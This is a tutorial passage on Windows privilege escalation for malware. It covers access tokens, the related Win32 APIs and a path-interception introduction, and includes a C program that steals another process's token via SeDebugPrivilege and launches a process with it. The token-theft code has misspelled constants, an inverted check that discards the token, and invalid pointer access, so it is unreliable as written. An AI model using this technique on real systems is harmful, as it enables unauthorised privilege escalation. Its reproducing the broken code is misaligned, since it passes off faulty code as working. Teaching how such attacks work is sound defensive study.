


Privilege Escalation Techniques with Malware
At this point, you should be familiar with what a principal is, and how their access rights determine what actions they can take on a system, network, or domain. When a hacker initially compromises a target system, they may not have the level of privilege necessary to execute on their intent. Privilege escalation descibes the tactics and techniques used to gain higher rights on a system, network, or domain after the initial compromise.
Access Tokens
Access Tokens are a core element of the authentication process on Windows, created and managed by the Local Security Authority Subsystem Service (LSASS). They are responsible for identifying and describing the security context of a process or thread running on a system. Every time a user authenticates successfully, an access token is generated by winlogon.exe, by way of lsass.exe.
It includes the identity and privileges of the user account associated with the thread or process. Then, it is attached to the userinit.exe process, after which all child processes started by the user will inherit a copy of the access token and run under the privileges of the same access token.

Diagram of Access Token Generation After Authentication
Windows developers can engage with the access token that represents their current login session in the LSASS process using different Win32 APIs. For instance, DuplicateTokenEx can be used to copy pre-existing tokens:
-
DuplicateTokenEx: A Windows API function that creates a new access token that duplicates an existing one. It can be found inadvapi32.dll.- The
Exvariant allows you to:- Change the token type (i.e.,
ImpersonationToken->Primary Token), which is required to launch a new process via theCreateProcessAsUserfunction. - Define exactly what the new handle is allowed to do.
- Set impersonation levels.
- Change the token type (i.e.,
BOOL DuplicateTokenEx( [in] HANDLE hExistingToken, [in] DWORD dwDesiredAccess, [in, optional] LPSECURITY_ATTRIBUTES lpTokenAttributes, [in] SECURITY_IMPERSONATION_LEVEL ImpersonationLeve, [in] TOKEN_TYPE TokenType, [out] PHANDLE phNewToken )Here is a breakdown of the
DuplicateTokenExfunction's parameters:-
hExistingToken: A handle to the original token, which must have been opened withTOKEN_DUPLICATEacess. -
dwDesiredAccess: Determines what actions can be performed using the handle to the new token. The values you can pass fall into three categories:- Specific Rights: The most common values used when you need to perform specific operations on a token.
TOKEN_DUPLICATE(0x0002): Required to duplicate the token (often passed if you plan to clone this new token later).TOKEN_QUERY(0x0008): Required to query the token (i.e., getting the User SID or Group List)TOKEN_ASSIGN_PRIMARY(0x0001): Required to attach the new token to a process (used withCreateProcessAsUser).TOKEN_IMPERSONATE(0x0004): Required to attach the token to a thread for impersonation.TOKEN_ADJUST_PRIVILEGES(0x0020): Required to enable or disable privileges within the token.TOKEN_ADJUST_DEFAULT(0x0080): Required to change the default DACL or primary group of the token.
- Standard Rights: A set of security permissions that apply to almost all type of Executive Objects (i.e., processes, thread, registry keys, and synchronization objects), governing the management of the object itself rather than the data it contains.
DELETE(0x00010000): The right to delete the object.READ_CONTROL(0x00020000): The right to read the information in the object's security descriptor (the DACL), but not the SACL, which requires the specialACCESS_SYSTEM_SECURITYright.WRITE_DAC(0x00040000): The right to change who has access to the object by modifying the Discretionary Access Control List (DACL) in the security descriptor.WRITE_OWNER(0x00080000): The right to change the owner of the object in the security descriptor.
- Generic Rights: Common bundles of standalone access rights that are utilized as opposed to combining each right manually using the OR (
|) operator.TOKEN_ALL_ACCESS: Combines all possible specific and standard rights for a token, essentially creating a God-mode handle for that specific token.TOKEN_READ: CombinesSTANDARD_RIGHTS_READandTOKEN_QUERY.TOKEN_WRITE: CombinesSTANDARD_RIGHTS_WRITE,TOKEN_ADJUST_PRIVILEGES,TOKEN_ADJUST_GROUPS, andTOKEN_ADJUST_DEFAULT.
- Specific Rights: The most common values used when you need to perform specific operations on a token.
-
lpTokenAttributes: A pointer to aSECURITY_ATTRIBUTESstructure, that determines if the new handle can be inherited by child processes. UsuallyNULL.SECURITY_ATTRIBUTES: a structure used in Windows programming, primarily when creating a new object (a file, process, thread, or even an access token) to define its security descriptor and its inheritance properties.
Here is a breakdown of the structure's attributes:
typedef struct _SECURITY_ATTRIBUTES{ DWORD nLength; LPVOID lpSecurityDescriptor; BOOL bInheritHandle; }SECURITY_ATTRIBUTES, *PSECURITY_ATTRIBUTES, *LPSECURITY_ATTRIBUTES;Where:
nLength: The size of the structure in bytes. Should be equal tosizeof(SECURITY_ATTRIBUTES)before passing it to a function.lpSecurityDescriptor: A pointer to aSECURITY_DESCRIPTORstructure, which defines who owns the object and who has permission to use it.bInheritHandle: A boolean flag that determines if child processes can inherit the handle being created (TRUEfor yes).
-
ImpersonationLevel: A critical setting that determines how much authority a server or profess has when it acts on behalf of another user. There are four levels defined in theSECURITY_IMPERSONATION_LEVELenumeration:SecurityAnonymous: Server can identify that a connection is being made, but cannot see any identifying information about the client.SecurityIdentification: The server can retrieve your Security Identifier (SID) and privileges to perform its own access checks, however it cannot access local resources using your identity.SecurityImpersonation: The serverr can access local resources as if it were the user, however it is limited to the local machine.SecurityDelegate: Allows the server to impersonate the user's security context on both local and remote systems.
-
TokenType: Tells the kernel what the intended function of the access token is (whether it is attached to a Process or a Thread). It can have one of two possible values:TokenPrimary: An access token that is attached to a process, which defines the security context of the process including:- The User SID
- The Group SIDs
- Privileges (i.e.,
SeDebugPrivilege,SeShutdownPrivilege, etc.) - MIC Integrity Level
- The Default DACL
If you intend to create a new access token to create a new process (i.e., using
CreateProcessAsUser,CreateProcessWithTokenW, etc.) you must duplicate the existing token as aTokenPrimaryTokenImpersonation: An access token used by a thread to take actions on a system on behalf of a user. If your program must temporarily act as a different user, it must be aTokenImpersonationtype.
-
phNewToken: A pointer to the variable that receives the handle for the newly created clone token.
DuplicateTokenExreturnsTRUEon success,FALSEon failue (i.e.,ERROR_ACCESS_DENIED). - The
There are a lot of reasons to duplicate a token. For instance, we may need our program to impersonate a user in order to temporarily act on their behalf. After duplicating the token, we would use the ImpersonateLoggedOnUser function to switch the security context of the thread to the selected user. This reverts back after the RevertToSelf function is called, the thread exits, or the token is otherwise revoked:
-
ImpersonateLoggedOnUser: A Win32 API that causes the calling thread to impersonate the security context contained in a token handle.BOOL ImpersonateLoggedOnUser( [in] HANDLE hToken );Here is a breakdown of the
ImpersonateLoggedOnUserfunction's parameters:hToken: A handle to a primary or impersonation access token. The handle must haveTOKEN_QUERYandTOKEN_DUPLICATEaccess rights.
ImpersonateLoggedOnUserreturnsTRUEon success andFALSEupon failure.
A Locally Unique Identifier (LUID), is a 64-bit hexadecimal value used to identify locally unique entities on a system, such login sessions. Every access token must contain an Authentication ID (AuthID) parameter, which is used to identify the associated login session by utilizing the LUID. LUIDs can also be used to locally identify privileges on the system. The rights of a user account dictate what system actions can be performed by said account. The rights of a user encompass both the individual entitlements assigned to the user and the permissions granted to members of the group. These permissions are assigned by administrators and can be distringuished on the system by their assigned LUIDs. However, LUIDs are not exactly human-readable, so before you can perform any modifications to privileges, you must convert their human-readable names to their LUIDs using LookupPrivilegeValue:
BOOL LookupPrivilegeValueA(
[in, optional] LPCSTR lpSystemName,
[in] LPCSTR lpName,
[out] PLUID lpLuid
);
Here is a breakdown of the LookupPrivilegeValueA function's parameters:
lpSystemName: A pointer to a string that specifies the name of the system where the privilege is being looked up. PassingNULLlooks up the value on the local system.lpName: The null-terminated string of the privilege name (i.e.,SeDebugPrivilege).lpLuid: A pointer to theLUIDstructure that will receive the translated 64-bit value.
LookupPrivilegeValueA returns TRUE on success, FALSE on failue (i.e., ERROR_NO_SUCH_PRIVILEGE).
Access tokens and privileges play a vital role in certain privilege escalation techniques. Knowing how to access and query these values is fundamentally important to crafting the perfect attack.
Token Theft
Token theft is a technique where an attacker steals an existing access token from a running process and uses it to assume the identity and privileges of that user. It typically follows this sequence of steps:
- Gain Access: Attacker must first have administrative of
SeDebugPrivilegerights on the system to interact with other processes. - Open the Source: Attacker identifies a high-privileged process (i.e.,
winlogon.exe) and callsOpenProcess. - Extract the Token: Attacker calls
OpenProcessTokento get a handle to that process' primary token. - Duplicaet: Since they cannot use the original handle directly, they call
DuplicateTokenExto create a copy of it. - Impersonate or Launch: The attacker either:
- Creates an
Impersonationtoken to act on behalf of the victim within their current process - Creates a
Primarytoken to launch a new process on behalf of the victim, typically a new command shell with higher privileges.
Modern protection methods, such as Protected Process Light (PPL) and credential guard should be activated on a system to mitigate token theft.

Diagram of the Token Theft Process
For instance, in C, this can be implemented as follows:
#include <windows.h>
#include <iostream>
BOOL setPrivilege(LPCTSTR priv){
HANDLE token;
TOKEN_PRIVILEGES token_privs;
LUID luid;
BOOL resp = TRUE;
if (!LookupPrivilegeValue(NULL, priv, &luid)) resp = FALSE;
if (!OpenProcessToken(GetCurrentProcess(), TOKEN_ADJUST_PRIVILEGES, &token)) resp = FALSE;
token_privs.PrivilegeCount = 1;
token_privs.Privileges[0].LUID = luid;
token_privs.Privileges[0].Attributes = SE_PRIVILEGE_ENABLE;
if (!AdjustTokenPrivileges(token, FALSE, &token_privs, sizeof(TOKEN_PRIVILEGES), (PTOKEN_PRIVILEGES)NULL, (PDWORD)NULL)) resp = FALSE;
CloseHandle(token);
return resp;
}
HANDLE getToken (DWORD pid){
HANDLE cToken = NULL;
HANDLE ph = NULL;
if(pid == 0){
ph = GetCurrentProcess();
} else {
ph = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, true, pid);
}
if(!ph) cToken = (HANDLE)NULL;
BOOL resp = OpenProcessToken(ph, MAXIMUM_ALLOWED, &cToken);
if(resp) cToken = (HANDLE)NULL;
return cToken;
}
BOOL createProcess(HANDLE token, LPCWSTR app){
HANDLE dToken = NULL;
STARTUPINFOW si;
PROCESS_INFORMATION pi;
BOOL resp = TRUE;
ZeroMemory(&si, sizeof(STARTUPINFOW));
ZeroMemory(&pi, sizeof(PROCESS_INFORMATION));
si.cb = sizeof(STARTUPINFOW);
resp = DuplicateTokenEx(token, MAXIMUM_ALLOWED, NULL, SecurityImpersonation, TokennPrimary, &dToken);
resp = CreateProcessWithTokenW(dToken, LOGON_WITH_PROFIE, app, NULL, 0, NULL, NULL, &si, &pi);
return resp;
}
int main (int argc, char** argv){
if (!setPrivilege(SE_DEBUG_NAME)) return -1;
DWORD pid = atoi(argv[1]);
HANDLE cToken = getToken(pid);
if(!createProcess(cToken, L"C:\\Windows\\System32\\mspaint.exe")) return -1;
return 0;
}
Where:
-
OpenProcessToken: A vital Win32 API function used to retrieve the access token associated with a specific process. Located inadvapi32.dll.BOOL OpenProcessToken( [in] HANDLE ProcessHandle, [in] DWORD DesiredAccess, [out] PHANDLE TokenHandle );- Here is a breakdown of the
OpenProcessTokenfunction's parameters:ProcessHandle: A handle to the process whose access token you want to retrieve. It must have thePROCESS_QUERY_INFORMATIONaccess right.DesiredAccess: An access mask specifying what you intend to do with the token.- See
DuplicateTokenExfor value options.
- See
TokenHandle: A pointer to a handle that receives the address of the newly opened access token if the function succeeds.
- The
OpenProcessTokenfunction returnsTRUE upon success,FALSEupon failure (i.e.,ERROR_ACCESS_DENIEDif theProcessHandle` doesn't have enough permissions.)
- Here is a breakdown of the
-
TOKEN_PRIVILEGES: Used to describe a set of privileges for an access token. Essential when you want to query what privileges a process has or when you useAdjustTokenPrivilegesto enable/disable them.typedef struct _TOKEN_PRIVILEGES { DWORD PrivilegeCount; LUID_AND_ATTRIBUTES Privileges[ANYSIZE_ARRAY]; } TOKEN_PRIVILEGES, *PTOKEN_PRIVILEGES;-
Here is a breakdown of the
TOKEN_PRIVILEGESstructure's attributes:PrivilegeCount: Specifies the number of entries in thePrivilegesarray.Privileges[ANYSIZE_ARRAY]: An array of structures representing each individual privilege.
If you need more than one privilege, you must manually allocate enough memory for the extra
LUID_AND_ATTRIBTUTESelements:DWORD bufferSize = sizeof(TOKEN_PRIVILEGES)+(numPrivileges-1)*sizeof(LUID_AND_ATTRIBUTES); PTOKEN_PRIVILEGES pTokenPrivs = (PTOKEN_PRIVILEGES)malloc(bufferSize); pTokenPrivs.PrivilegeCount = numPrivileges;- Here is a breakdown of the
LUID_AND_ATTRIBUTESstructure's attributes:LUID: The Locally Unique Identifier which represents a privilege on the local system (i.e.,SeDebugPrivilege). This value is typically obtained by calling theLookupPrivilegeValuefunction.Attributes: A bitmask that defines the state of the privilege. The most common values include:SE_PRIVILEGE_ENABLED(0x00000002): Enables the privilege.SE_PRIVILEGE_ENABLED_BY_DEFAULT(0x00000001): The privilege is enabled by default (not relevant for our purposes here).SE_PRIVILEGE_REMOVED(0x00000004): The privilege is permanently removed from the token.SE_PRIVILEGE_USED_FOR_ACCESS(0x80000000): Privilege was used to gain access to an object.
-
-
AdjustTokenPrivileges: A Windows API function from the Win32 API, which enables or disables privileges in a specified access token, which represents the security context of a process or thread.BOOL AdjustTokenPrivileges( [in] HANDLE TokenHandle, [in] BOOL DisableAllPrivileges, [in] PTOKEN_PRIVILEGES NewState, [in] DWORD BufferLength, [in, optional] PTOKEN_PRIVILEGES PreviousState, [in, optional] PDWORD ReturnLength );- Here is a breakdown of the
AdjustTokenPrivilegesfunction's attributes:TokenHandle: The handle to the token you want to modify. It must have been opened withTOKEN_ADJUST_PRIVILEGESaccess.DisableAllPrivileges: Causes the function to disable all privileges and ignore theNewStateparameter.NewState: A pointer to aTOKEN_PRIVILEGESstructure, containing theLUID's and theSE_PRIVILEGE_ENABLEDattributes you want to set.BufferLength: The size, in bytes, or thePreviousStatebuffer. IfPreviousStateisNULL, this is0.PreviousState: A pointer to a buffer that receives the original state of any privileges the function modifies, allowing you to undo changes later.ReturnLength: A pointer to a variable that receives the required size of thePreviousStatebuffer.
AdjustTokenPrivilegescan returnTRUEeven if it failed to adjust all privileges you requirested. Fo instance, if you try to enableSedebugPrivilegebut you account doesn't actually possess that privilege in its token, the function returnsTRUEbecause the function call completed, but the action failed.
- Here is a breakdown of the
-
CreateProcessWithTokenW: A powerful Win32 API which creates a new process and its primary thread in the security context of a specific user token. It is frequently used by services or administrative tools (i.e.,runas) to launch a process as a different user. Asks theSecondary Logon Serviceto do the work for you. It's different fromCreateProcessAsUser, as the function does not require the caller to have theSeAssignePrimaryTokenPrivilege, which is very restricted. Unlike other functions, it only exists in aWvariant.CreateProcessWithTokenWcan be found inadvapi32.dll.BOOL CreateProcessWithTokenW( HANDLE hToken, DWORD dwLogonFlags, LPCWSTR lpApplicationName, LPWSTR lpCommandLine, DWORD dwCreationFlags, LPVOID lpEnvironment, LPCWSTR lpCurrentDirectory, LPSTARTUPINFOW lpStartupInfo, LPPROCESS_INFORMATION lpProcessInformation );- Here is a breakdown of the function's parameters:
hToken: A handle to the primary token for the new process. This is usually obtained viaLogonUserorDuplicateTokenEx.dwLogonFlags(0x00000001): Specifies the logon options regarding the user's profile for the new thread.LOGON_WITH_PROFILE: Loads the user profile (HKU, user environment) for the new process. Useful when the process needs the user reistry hive or profile resources.LOGON_NETCREDENTIALS_ONLY(0x00000002): Uses the token's credentials for outbound network authentication, but does not load the user profile. Local access uses the caller's account.None(0x00000000): The default setting. Does not load the profile. Standard token behavior.
lpApplicationName: The path to the executable. Can beNULLif the path is in thelpCommandLineargument.lpCommandLine: The command line string to execute.dwCreationFlags: Controls how the process is created (i.e.,CREATE_SUSPENDED,CREATE_NO_WINDOW)lpEnvironment: A pointer to an environment block. IfNULLthe new process uses an environment created from the user's token.lpCurrentDirectory: The working directory for the new process.lpStartupInfo: Structure defining window appearance and standard handles (stdin/stdout)lpProcessInformation: Structure that receives the new Process/Thread handles and IDs.
There are 3 critical requirements which must be met in order for
CreateProcessWithTokenWto work as intended:- The Secondary Logon Service: The service
seclogonmust be running, otherwise the function will fail withERROR_SERVICE_DISABLED. - Token Type: The
hTokenmust be a Priary Token, not an impersonation token - Permissions: The caller must have the identity of the user they are trying to launch, have the
SeDebugPrivilege, or be part of the Administrators group.
- By having the
SeDebugPrivilege, the system treats the request to open and duplicate another user's token as a legitimate debugging action.
- The
CreateProcessWithTokenWfunction returnsTRUEupon success,FALSEupon failure.
- Here is a breakdown of the function's parameters:
Path Interception
Path Interception is a vulnerability that occurs when an executable can be placed in a location which allows it to highjack the execution path of another, intended application. When the target program is executed with an elevated security context, this can result in privilege escalation. There are 3 variations of this vulnerability that we will review here: The PATH Environment Variable, Search Order Highjacking, and Unquoted Paths.
Path Environment Variable
The PATH environment variable contains a list of directories, which Windows uses to resolve the locations of common programs. For instance, schtasks, the program we use to enumerate scheduled tasks, exists at C:\Windows\System32\schtasks.exe. When you run schtasks at the Command line, the OS searches each directory, in order until it comes across schtasks.exe in %SystemRoot%\system32.
Verify this by running:
$ reg query "HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment" /v Path
System processes use the Path variable found at HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\Environment\Path, or the Machine Path. User processes search the Machine Path, then search through the User Path, found at HKCU\Environment\Path.